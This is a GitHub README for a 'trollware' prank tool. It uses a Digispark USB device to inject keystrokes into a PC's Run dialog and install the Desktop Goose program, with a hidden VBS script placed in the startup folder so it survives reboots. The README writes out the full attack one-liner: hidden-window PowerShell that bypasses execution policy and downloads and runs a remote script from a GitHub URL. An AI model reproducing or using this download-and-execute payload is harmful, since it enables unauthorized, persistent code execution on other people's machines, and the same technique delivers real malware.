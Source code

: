 # Goose Trollware
Goose program prank install wrapper for digispark. Keeping the link short for speed of exploit. 

See here for the original program https://desktop-goose.en.uptodown.com/windows

My code is intended to allow a digispart to plugin, quickly type the initial payload, and unplug while the code sets up the rest in the background.

The intent is to create a startup wrapper, placing it in the shell:startup folder. 

---

`i.ps1`: The install script run by the digispark

`run.vbs`: The vbs script copied to the autostartup folder.

---

To run, just have a digispark run `powershell -W H -Ex B -c "iex (iwr 'https://github.com/Reginald-Gillespie/G/raw/main/i.ps1').Content"` in the Run Dialogue. Later I may make the initial script rerun the main script as a hidden window.